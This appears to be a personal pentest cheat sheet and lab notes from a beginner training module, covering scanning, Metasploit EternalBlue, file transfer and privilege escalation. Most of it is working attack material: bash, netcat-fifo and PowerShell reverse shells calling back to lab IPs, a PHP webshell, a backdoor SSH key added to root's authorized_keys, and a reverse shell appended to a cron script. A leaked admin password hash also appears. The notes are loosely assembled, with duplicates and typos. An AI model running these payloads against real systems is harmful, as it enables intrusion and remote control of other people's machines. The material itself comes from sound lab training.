# GettingStarted (Complete)

## Basic Tools 
> - **Connect to VPN **  sudo openvpn user.ovpn   
> - **Connect to FTP **  ftp 10.0.0.0   
> - **Connect to SSH **  ssh user@10.0.0.0   


    
## Service Scanning 
> - **Run an nmap script scan on an IP **  nmap -sV -sC -p- 10.0.0.0   
> - **Grab banner of an open port **  netcat 10.10.10.10 22   
> - **List SMB Shares **  smbclient -N -L \\\\10.129.42.253   
> - **Connect to a SMB Share **  smbclient \\\\10.129.42.253\\users
> - **Grab banner of an open port **  netcat 10.10.10.10 22
> - **Grab banner of an open port **  netcat 10.10.10.10 22


   
  
## WEB Enumb
> - **scan web directories** gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
> - **scan sub directories of a website** gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
> - **List potential directories** curl 10.10.10.121/robots.txt
> - **grab website banner** curl -IL https://www.inlanefreight.com
> - **List details about webserver/certs** whatweb 10.10.10.121 or whatweb --no-errors 10.10.10.0/24


    

## Exploit Scan
> - **Install exploitdb tool** sudo apt install exploitdb -y
> - **Search for public exploits for a web application** searchsploit openssh 7.2
### Metasploit
Metasploit Framework (MSF) contains exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets
> - **MSF: Start the Metasploit Framework** msfconsole
> - **Search for public exploits in MSF** search exploit eternalblue
> - **Start using an MSF module** use exploit/windows/smb/ms17_010_psexec
> - **Show required options for an MSF module** show options
> - **Set a value for an MSF module option** set RHOSTS 10.10.10.40
> - **Test if the target server is vulnerable** check
> - **Run the exploit on the target server is vulnerable** exploit
     
    

## Using Shells
netcat can be used to connect to any listening port and interact with the service running on that port.
> - **Start a nc listener on a local port (on my computer)** nc -lvnp 1234  or   nc 10.10.10.1 1234
> - **Send a reverse shell from the remote server** bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
> - **Another reverse shell from the remote server** rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
> - **Start a bind shell on the remote server** rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
> - **same as above but with powershell** powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
> - **Connect to a bind shell started on the remote server (on my computer)** nc 10.10.10.1 1234
>
> - **Upgrade shell TTY (1)** python -c 'import pty; pty.spawn("/bin/bash")'
> - **Upgrade shell TTY (2)** ctrl+z then stty raw -echo then fg then enter twice
> - **Create a webshell php file** echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php
> - Apache	/var/www/html/   Nginx	/usr/local/nginx/html/   IIS	c:\inetpub\wwwroot\   XAMPP	C:\xampp\htdocs\
> - **Execute a command on an uploaded webshell** curl http://SERVER_IP:PORT/shell.php?cmd=id or go to browser http://SERVER_IP:PORT/shell.php?cmd=id
   

## Privilege Escalation
> - **Run linpeas script to enumerate remote server** ./linpeas.sh
> - **Test if sudo** sudo -l     or   sudo -u user /bin/echo Hello World!   or    sudo su -
> - Try find accounts via /etc/crontab     /etc/cron.d      /var/spool/cron/crontabs/root    /etc/passwd   etc.
> - **SSH in**
> - **Create key** ssh-keygen -f key   
> - **apply key to user** echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys   
> - **SSH to server** ssh root@10.10.10.10 -i key   
   



## Transfer Files
> - **Start local web server** python3 -m http.server 8000
> - **Download a file on the remote server from our local machine** wget http://10.10.14.1:8000/linenum.sh
> - **Download a file on the remote server from our local machine** curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
> - **Transfer a file to the remote server with scp (requires SSH access)** scp linenum.sh user@remotehost:/tmp/linenum.sh
> - **Do It via BASE64**
> - **Convert a file to base64** base64 file -w 0     check it via md5sum shell
> - **Convert a file from base64 back to its orig** echo f0VMR...SNIO...InmDwU | base64 -d > shell
> - user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file



### Useful Links













  # install seclists = git clone https://github.com/danielmiessler/SecLists && sudo apt install seclists -y
  # Next, add a DNS Server such as 1.1.1.1 to the /etc/resolv.conf file.
  > 


  

  
##########################################################################################


  

nmap -sV --open -oA nibbles_initial_scan <ip address>
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.190
nc -nv 10.129.42.190 22
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190 
whatweb 10.129.42.190


gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.246 9443 >/tmp/f"); ?>
nc -lvnp 9443
python -c 'import pty; pty.spawn("/bin/bash")'
 python3 -c 'import pty; pty.spawn("/bin/bash")'


unzip personal.zip
cat monitor.sh
sudo python3 -m http.server 8080
wget http://<your ip>:8080/LinEum.sh
chmod +x LinEnum.sh
./LinEnum.sh


https://github.com/vanhauser-thc/thc-hydra
https://github.com/digininja/CeWL
https://highon.coffee/blog/reverse-shell-cheat-sheet/!

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9443 >/tmp/f"); ?>
nc -lvnp 9443
navigate to the webfile and should get a hit on the listner as shell
upgrade to nicer shell via which python3 commmand
python -c 'import pty; pty.spawn("/bin/bash")' OR python -c 'import pty; pty.spawn("/bin/bash")' OR python3 -c 'import pty; pty.spawn("/bin/bash")'
to enumerate priv esculations run this while listening - sudo python3 -m http.server 8080
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Back on the target type wget http://<your ip>:8080/LinEum.sh to download the script
Once the script is pulled over, type chmod +x LinEnum.sh to make the script executable and then type ./LinEnum.sh to run it.
modify monitor.py script to add line at the end
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 8443 >/tmp/f' | tee -a monitor.sh


10.129.42.249 target
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
/theme
/data
/backups
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
10.10.15.24 me
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>

nmap -sV --open -oA nibbles_initial_scan 10.129.42.249 
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.249 

nc -nv 10.129.42.249 22
nc -nv 10.129.42.249 80

nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.249
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.249

+whatweb 10.129.42.249
+gobuster dir -u http://10.129.42.249/data/ --wordlist /usr/share/dirb/wordlists/common.txt

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.129.42.249 4444 >/tmp/f"); ?>
